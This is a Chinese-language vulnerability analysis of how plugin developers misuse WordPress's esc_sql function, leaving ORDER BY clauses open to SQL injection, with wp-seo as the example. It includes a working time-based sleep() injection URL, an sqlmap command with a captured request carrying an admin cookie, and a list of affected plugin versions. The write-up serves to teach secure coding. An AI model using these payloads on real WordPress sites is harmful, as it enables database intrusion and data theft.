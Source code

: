 # 分析WordPress中esc_sql函数引起的注入危害

0x00 背景
=======

* * *

这篇文章说的不是esc_sql函数自身有什么逻辑上缺陷或者不足，而是说下关于二次开发者错误的使用此函数引起的注入漏洞。

在wordpress手册中关于esc_sql的解释，在以前的版本中，官方并没有说出这个函数有任何问题：

![enter image description here](http://drops.javaweb.org/uploads/images/91990e0e5800a612bc9366c6d51ba0a2fb94fd53.jpg)

在近期的wordpress手册中说出了这个函数如果错误使用会造成注入漏洞：

![enter image description here](http://drops.javaweb.org/uploads/images/3d24eaa29f19c6f5b0b27c80961df37c28259945.jpg)

0x01 分析
=======

* * *

我们再看下esc_sql的实现：

```
function esc_sql( $data ) {
    global $wpdb;
    return $wpdb->_escape( $data );
}
function _escape( $data ) {
    if ( is_array( $data ) ) {
        foreach ( $data as $k => $v ) {
            if ( is_array($v) )
                $data[$k] = $this->_escape( $v );
            else
                $data[$k] = $this->_real_escape( $v );
            }
        } else {
    $data = $this->_real_escape( $data );
    }
    return $data;
}
function _real_escape( $string ) {
    if ( $this->dbh ) {
        if ( $this->use_mysqli ) {
            return mysqli_real_escape_string( $this->dbh, $string );
        } else {
    return mysql_real_escape_string( $string, $this->dbh );
    }
}
$class = get_class( $this );
if ( function_exists( '__' ) ) {
    _doing_it_wrong( $class, sprintf( __( '%s must set a database connection for use with escaping.' ), $class ), E_USER_NOTICE );
} else {
    _doing_it_wrong( $class, sprintf( '%s must set a database connection for use with escaping.', $class ), E_USER_NOTICE );
}
    return addslashes( $string );
}

```

通过对比上面两个手册和代码我们可以清晰的得出以下几个结论：

*   1.  99%的情况下你可以使用$wpdb->prepare()函数来做数据库操作（有那些是哪不能的1%呢？order by、like···· ）
*   1.  esc_sql是addslashes()函数的数组应用，但是esc_sql转义数组的时候只转义数组值。
*   1.  esc_sql并没有对输入数据自动加引号保护

由于老版本手册的说明不严谨问题，在很多二次开发者使用esc_sql函数的时候出现了注入漏洞。

wp-seo插件注入漏洞

在文件admin/class-bulk-editor-list-table.php中：

```
protected function parse_item_query( $subquery, $all_states, $post_type_clause ) {

    // Order By block
    $orderby = ! empty( $_GET['orderby'] ) ? esc_sql( sanitize_text_field( $_GET['orderby'] ) ) : 'post_title';
    $order   = 'ASC';

    if ( ! empty( $_GET['order'] ) ) {
        $order = esc_sql( strtoupper( sanitize_text_field( $_GET['order'] ) ) );
    }

    // Get all needed results
    $query = "
    SELECT ID, post_title, post_type, post_status, post_modified, post_date
    FROM {$subquery}
    WHERE post_status IN ({$all_states}) $post_type_clause
    ORDER BY {$orderby} {$order}
    LIMIT %d,%d
    ";

    return $query;
}

```

其中很明显的漏洞出现了，然后就是构造poc：

```
http://192.168.9.102/wordpress/wp-admin/admin.php?page=wpseo_bulk-editor&type=title&orderby=post_date%2c(select%20*%20from%20(select(sleep(10)))a)&order=asc

```

如何使用sqlmap在order by后面延时注入，可以请参考：http://drops.wooyun.org/tips/5254自写，也可以抓包：

```
python sqlmap.py -r 2.txt --technique=B --dbms=MySQL -D wordpress --tables
GET /wordpress/wp-admin/admin.php?page=wpseo_bulk-editor&type=title&orderby=pos$
Host: 192.168.9.102
Proxy-Connection: keep-alive
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=$
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like$
Accept-Encoding: gzip, deflate, sdch
Accept-Language: zh-CN,zh;q=0.8
Cookie: wordpress_1d5e8f89471a6349f1caf2e6b8aa4232=admin%7C1426827482%7CjKzM166$...

```

出现这样漏洞的插件还有：

```
WooCommerce 2.3 – 2.3.5
Pods 1.10 <= 2.5.1.1
AffiliateWP < 1.5.7
WP All Import < 4.1.2
Gravity Forms < 1.9.4

```

0x02 总结：
========

* * *

从上面的分析和出现的已知漏洞不难看出，此函数滥用的插件应该不在少数。